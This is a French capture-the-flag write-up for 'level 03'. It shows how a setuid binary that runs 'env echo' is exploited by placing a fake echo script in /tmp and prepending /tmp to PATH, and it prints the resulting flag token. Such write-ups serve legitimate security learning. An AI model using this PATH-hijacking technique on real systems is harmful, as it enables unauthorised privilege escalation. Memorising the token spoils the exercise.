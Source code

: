 # LEVEL 03
On a ce fichier
```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

C'est un fichier qui a les meme droit que getflag
le premier s dans les droits veut dire SETUID
le deuxième s est SETGID

on teste son execution
```
./level03
Exploit me
```

On essaie de voir ce qu'il y'a dans le fichier
```
hexdump -C level03
```

il y'a deux lignes qui nous intéresse
```
000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|

-> /usr/bin/env echo Exploit me
```

ce echo de /usr/bin/env rend le code vulnerable car on peut changer ce chemin vers un autre fichier qu'on veut utiliser comme echo et puisque le fichier a les meme droit que getflag on va essayer de l'utiliser

Mettre le getflag en tmp
```
echo '/bin/getflag' > /tmp/echo;
```

ajouter le droit d'executtion
```
chmod +x /tmp/echo;
```

ajouter le tmp dans le PATH
```
export PATH=/tmp:$PATH;
```

on réexecute level03
```
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

Le lien qui nous a aidé a comprendre la vulnerabilité de ce code
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code
